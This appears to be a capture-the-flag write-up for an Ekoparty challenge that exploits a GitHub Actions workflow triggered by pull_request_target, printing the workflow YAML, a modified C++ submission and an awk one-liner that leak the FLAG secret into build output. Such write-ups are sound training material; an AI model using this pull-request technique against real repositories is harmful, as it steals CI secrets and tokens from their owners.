 # Fork Knife

You must solve the first challenge to get the answer of this 2nd challeng.

![Alt text](images/image.png)

This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There is a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.

![Alt text](images/image-1.png)

Looking at the actions tab to see the workflow running.
![Alt text](images/image-2.png)

and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}